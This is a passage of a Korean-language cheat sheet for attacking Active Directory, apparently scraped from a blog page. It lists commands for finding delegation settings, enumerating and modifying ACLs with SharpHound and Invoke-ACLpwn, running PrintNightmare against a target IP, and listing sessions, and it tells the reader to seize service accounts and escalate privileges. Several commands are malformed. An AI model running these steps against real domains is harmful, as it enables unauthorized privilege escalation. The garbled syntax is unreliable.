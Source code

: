 <div class="content-ad"></div>

```js
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne $null} -Properties msDS-AllowedToDelegateTo
```

서비스 계정을 탈취하여 위임을 악용하십시오.

# 리소스 기반 제한된 위임

- 리소스 기반 위임 설정 식별하기.

<div class="content-ad"></div>

```js
Get-ADComputer -Filter {msDS-AllowedToActOnBehalfOfOtherIdentity -ne $null} -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

2. 권한 상승을 얻기 위해 설정을 악용하세요.

# ACL 악용

- BloodHound와 같은 도구를 사용하여 ACL 열거.

<div class="content-ad"></div>

```js
SharpHound.exe -c All
```

2. 추가 권한을 부여하려면 ACL을 수정하세요.

```js
Invoke - ACLpwn - Domain < 도메인 > -Principal < 사용자 > -AddFullControl;
```

# 프린터 스풀러 서비스 남용

<div class="content-ad"></div>

- 알려진 취약점을 이용하여 프린트 스풀러 서비스를 악용합니다.
- 해당 서비스를 악용하여 권한을 상승시킵니다.

```js
PrintNightmare.exe <대상_ip>
```

# 타사 세션 남용

- 활성 타사 세션을 식별합니다.

<div class="content-ad"></div>

```js
klist 세션
```
